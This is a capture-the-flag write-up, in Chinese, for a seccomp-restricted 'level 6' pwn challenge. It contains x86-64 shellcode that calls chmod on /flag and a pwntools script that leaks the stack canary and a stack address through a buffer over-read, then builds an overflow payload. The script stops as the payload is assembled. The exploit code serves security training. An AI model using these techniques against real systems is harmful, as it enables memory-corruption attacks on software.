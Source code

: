 ## level 6

使用 `seccomp_rule_add`限制了系统调用，由于限制系统调用后代码使用了 `puts`函数，所以为了保证程序正常运行到返回，必须要保证 `write`系统调用正常使用。

在代码中我们只能保证两个系统调用可以正常使用。`write`占用了其中一个，所以我们只能使用 `chmod`系统调用更改flag文件的权限，然后读取flag中的内容。

```asm
BITS 64
section .data
    filename db '/flag', 0
    mode equ 0x1a4 ; 十六进制的644  ---注意这里的传参 不能直接写644，那是十进制数，之前一直写0644也不对，他好像不能直接识别为八进制
section .text
global _start
_start:
    mov rax, 90
    lea rdi, [rel filename]
    mov rsi, mode
    syscall
```

```python

from pwn import *
elf = ELF("/challenge/toddlerone_level6.1")
p = process("/challenge/toddlerone_level6.1")
p.recvuntil("Payload size: ")

init_payload_size = 0x68  + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(response)
print(f"canary_value: {canary_value}")


init_payload_size = 0x70 
p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
print(response)
stack_value = response[init_payload_size:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xD0 - 0xD0 - 0x70)

real_payload_size = 0x70 + 8 + 8

p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level6/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
# real_payload = shellcode + 46 * b'a' + p32(1) + p32(0x5A) + 12*b'A'  + canary_value +  8*b'C'+ return_address
real_payload = shellcode + 6 * b'A' + 52* b'a' + p32(1) + p32(0x5A) + 12*b'A'  + canary_value +  8*b'C'+ return_address
```